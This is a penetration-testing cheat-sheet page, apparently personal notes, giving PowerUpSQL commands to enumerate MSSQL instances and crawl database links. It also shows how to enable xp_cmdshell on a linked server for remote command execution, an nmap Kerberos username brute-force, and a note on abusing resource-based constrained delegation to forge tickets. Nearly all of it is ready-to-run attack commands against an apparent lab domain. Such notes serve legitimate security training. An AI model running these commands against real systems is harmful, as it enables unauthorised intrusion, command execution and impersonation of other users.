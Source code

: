 ### MSSQL Enumeration:

{% code overflow="wrap" %}
```powershell
## basic instance information
Get-SQLInstanceLocal

## more verbose information:
Get-SQLServerInfo -Verbose -Instance SQLSRV\SQLEXPRESS

## crawl for databse links:
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS
```
{% endcode %}

### Execute DB Query via MSSQL Link

{% code overflow="wrap" %}
```powershell
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS -Query "select name from master..sysdatabases" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

### Enable xp\_cmdshell / Execute Commands

{% code overflow="wrap" %}
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

## KERBEROS

### Brute Usernames with Nmap

{% code overflow="wrap" %}
```bash
nmap -v -Pn -p 88 --script krb5-enum-users.nse --script-args "realm='burmat.local', userdb='users.txt'" 10.10.10.123
```
{% endcode %}

### GenericWrite to Host + User SPN = PWN

If we have `GenericWrite` privileges over a host and we are a user that has an SPN, we can write our SID to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property against the AD object and forge tickets as anyone we like. You can read more about it here: [https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path](https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path)
